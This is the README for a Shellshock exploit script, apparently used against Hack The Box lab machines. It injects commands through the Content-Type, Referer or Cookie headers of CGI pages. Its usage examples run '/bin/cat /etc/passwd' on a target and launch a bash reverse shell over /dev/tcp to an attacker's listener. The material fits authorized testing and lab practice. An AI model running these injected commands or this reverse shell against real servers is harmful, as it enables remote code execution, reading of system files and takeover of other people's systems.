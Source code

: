 # http-shellshock.sh

Script to test web pages for shellshock vulnerabilities in headers

command is optional default is /bin/uname -a, Full paths to commands are required
 
Headings to test, use -h and select number from list
                1 = Content-Type
                2 = Referer
                3 = Cookie
Examples below

        ./http-shellshock.sh -u url [-h number] [-s 'command to run']

        ./http-shellshock.sh -u http://10.10.10.56/cgi-bin/

Full paths to binaries may be required as web service user may not have loaded profile
        ./http-shellshock.sh -u http://10.10.10.56:80/cgi-bin/user.sh -h 1 -s '/bin/cat /etc/passwd'

If the target is vulnerable we might be able to get a reverse shell using the following...
Start a reverse nc listener and run the below changing the attackers IP and port
  ./http-shellshock.sh -u http://10.10.10.56:80/cgi-bin/user.sh -h 1 -s '/bin/bash -i >& /dev/tcp/10.10.14.22/443 0>&1'

